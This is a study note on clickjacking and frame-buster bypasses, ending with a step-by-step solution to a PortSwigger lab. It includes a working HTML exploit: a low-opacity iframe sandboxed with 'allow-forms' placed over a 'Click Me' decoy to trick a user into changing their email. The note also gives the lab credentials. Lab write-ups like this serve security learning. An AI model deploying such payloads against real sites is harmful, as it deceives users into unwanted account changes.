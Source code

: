 - Clickjacking attacks are possible whenever websites can be framed. Therefore, preventative techniques are based upon restricting the framing capability for websites.
- A common client-side protection enacted through the web browser is to use frame busting or frame breaking scripts. "Frame busting" or "frame breaking" scripts are used in web browsers to protect against clickjacking
- These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript.

**These scripts can do the following things:**

1. Check if the current web page is the main or top window to ensure it's not embedded within another website.
2. Make all frames (parts of a webpage) visible to prevent hidden elements that can be used for clickjacking.
3. Prevent users from clicking on invisible frames, enhancing security.
4. Flag and notify the user if there's a potential clickjacking attack, so they are aware of the threat.

These scripts help safeguard users from deceptive actions on the web.

- Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers.
- If a website uses JavaScript-based frame busters to prevent clickjacking, they might not work if a user's browser has strict security settings or if the browser doesn't support JavaScript at all. In such cases, the frame-busting protection may be ineffective.
- Attackers can bypass frame busters by using the HTML5 iframe sandbox attribute, specifically with "allow-forms" or "allow-scripts" values while omitting "allow-top-navigation." This setup prevents the frame buster from detecting whether or not it is the top window, making it less effective in protecting against clickjacking.

```jsx
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

## Steps to solve lab - 
### Title - Clickjacking with a frame buster script

**Desc** - This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that changes the users email address? 
To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

**Creds** - wiener:peter

1.  Log in to your account on the target website.
  ![[clickjacking2.png]]

2. Go to the exploit server and paste the following HTML template into the **Body** section:
```jsx
	<style>
		#target_website {
			position: relative;
			width: 600px;
			height: 600px;
			opacity: 0.1;
			z-index: 2;
			}
		#decoy_website {
			position: absolute;
			z-index: 1;
			top: 448px;
			left: 73px;
			}
	</style>
	<div id="decoy_website">
	Click Me
	</div>
	<iframe scrolling="no" id="target_website" src="YOUR-LAB-ID.web-security-academy.net/my-account?email=carlos@gmail.com" sandbox="allow-forms" >
	</iframe>
```

4. Click **Store** and then **View exploit**.
5. Click on **Deliver exploit to victim** and the lab should be solved.
![[clickjacking3.png]]

**After clicking on view exploit, we got something as follows** - 
![[clickjacking4.png]]